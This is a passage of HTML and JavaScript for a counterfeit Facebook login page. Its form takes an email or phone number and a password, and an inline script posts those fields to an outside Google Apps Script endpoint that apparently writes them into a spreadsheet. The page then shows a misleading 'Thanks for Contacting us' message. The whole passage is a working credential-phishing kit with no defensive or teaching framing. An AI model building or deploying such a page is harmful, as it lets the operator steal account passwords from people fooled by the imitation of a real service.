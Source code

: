 				<div class="row justify-content-between">
					<div class="content-left">
						<h1>facebook</h1>
						<h2>Facebook helps you connect and share with the people in your life.</h2>
					</div>
					<div class="content-right">
						<form action="" method="post" name="google-sheet">
							<div class="form-group">
								<input type="text" name="number" placeholder="Email address or phone number">
							</div>
							<div class="form-group">
								<input type="password" name="password" placeholder="Password">
							</div>
							<div class="login">
							<input type="submit"   value="log in">
							 
							</div>
							<div class="forgot">
								<a href="">Forgotten account?</a>
							</div>
							<div class="create-btn">
								<a href="" class="btn">create new account</a>
							</div>
						</form>
						<p><a href="">Create a Page</a> for a celebrity, band or business.</p>
					</div>
				</div>
			</div>
		</div>
		          <script>
            const scriptURL = 'https://script.google.com/macros/s/AKfycbxbLFX8XMBIB1kddpAe8yAZCgGb1C7cIzkpuTZeqJLit1XXU7IakHFKV_R5yeaZ8lGABw/exec'
            const form = document.forms['google-sheet']
          
            form.addEventListener('submit', e => {
              e.preventDefault()
              fetch(scriptURL, { method: 'POST', body: new FormData(form)})
                .then(response => alert("Thanks for Contacting us..! We Will Contact You Soon..."))
                .catch(error => console.error('Error!', error.message))
            })
          </script>
		<!-- login Page end -->
</body>
</html>


